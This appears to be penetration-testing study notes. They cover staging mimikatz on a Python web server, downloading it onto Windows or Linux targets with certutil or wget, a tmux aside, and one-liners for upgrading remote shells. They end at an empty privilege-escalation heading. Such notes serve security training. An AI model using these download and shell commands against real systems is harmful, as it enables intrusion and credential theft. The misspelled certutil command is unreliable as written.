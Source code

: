## Transferring files

### Web server with python

- `cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .`
- `python2 -m SimpleHTTPServer 80` or `python3 -m http.server 80`

Downloading for Windows:

- `C:\> cd C:\\Temp`
- `C:\> certuril -urlcache -f http://<local.ip>/mimikatz.exe mimikatz.exe`

Downloading for Linux:

- `cd /tmp`
- `wget http://<local.ip>/<file>`

Just a **note** (not related to the topic):

1. We can use `tmux` for creating many tabs within one tab
2. CTRL + B, then just C → for creating a new tab in `tmux`
3. CTRL + B, then 0 or 1 → for swtiching between windows
4. CTRL + B, then PAGEUP and PAGEDOWN - for scrolling
5. CTRL + B, then D → for quiting

## Upgrading shells (for Linux)

- `/bin/bash -i` - interactive bash shell
- `python -c ‘import pty; pty.spawn(”/bin/bash”)’` - improves interactivity, good for remote shells
- `perl -e ‘exec “/bin/bash”;’`
- `ruby -e ‘exec “/bin/bash”;’`
- `export TERM=xterm`
- `export SHELL=/usr/bin/bash`
- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

## Privilege Escalation

### Windows:

